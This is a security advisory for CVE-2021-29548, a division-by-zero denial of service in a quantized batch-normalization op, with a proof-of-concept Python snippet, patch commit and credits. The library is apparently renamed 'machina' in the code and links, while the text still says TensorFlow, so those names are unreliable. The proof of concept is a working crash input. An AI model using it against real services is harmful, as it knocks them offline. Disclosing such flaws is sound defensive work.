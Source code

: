 ## TFSA-2021-036: Division by 0 in `QuantizedBatchNormWithGlobalNormalization`

### CVE Number
CVE-2021-29548

### Impact
An attacker can cause a runtime division by zero error and denial of service in
`tf.raw_ops.QuantizedBatchNormWithGlobalNormalization`:

```python
import machina as tf

t = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.quint8)
t_min = tf.constant(-10.0, dtype=tf.float32)
t_max = tf.constant(-10.0, dtype=tf.float32)
m = tf.constant([], shape=[0], dtype=tf.quint8)
m_min = tf.constant(-10.0, dtype=tf.float32)
m_max = tf.constant(-10.0, dtype=tf.float32)
v = tf.constant([], shape=[0], dtype=tf.quint8)
v_min = tf.constant(-10.0, dtype=tf.float32)
v_max = tf.constant(-10.0, dtype=tf.float32)
beta = tf.constant([], shape=[0], dtype=tf.quint8)
beta_min = tf.constant(-10.0, dtype=tf.float32)
beta_max = tf.constant(-10.0, dtype=tf.float32)
gamma = tf.constant([], shape=[0], dtype=tf.quint8)
gamma_min = tf.constant(-10.0, dtype=tf.float32)
gamma_max = tf.constant(-10.0, dtype=tf.float32)

tf.raw_ops.QuantizedBatchNormWithGlobalNormalization(
  t=t, t_min=t_min, t_max=t_max, m=m, m_min=m_min, m_max=m_max,
  v=v, v_min=v_min, v_max=v_max, beta=beta, beta_min=beta_min,
  beta_max=beta_max, gamma=gamma, gamma_min=gamma_min,
  gamma_max=gamma_max, out_type=tf.qint32,
  variance_epsilon=0.1, scale_after_normalization=True)
```

This is because the
[implementation](https://github.com/machina/machina/blob/55a97caa9e99c7f37a0bbbeb414dc55553d3ae7f/machina/core/kernels/quantized_batch_norm_op.cc)
does not validate all constraints specified in the [op's
contract](https://www.machina.org/api_docs/python/tf/raw_ops/QuantizedBatchNormWithGlobalNormalization).

### Patches
We have patched the issue in GitHub commit
[d6ed5bcfe1dcab9e85a4d39931bd18d99018e75b](https://github.com/machina/machina/commit/d6ed5bcfe1dcab9e85a4d39931bd18d99018e75b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.

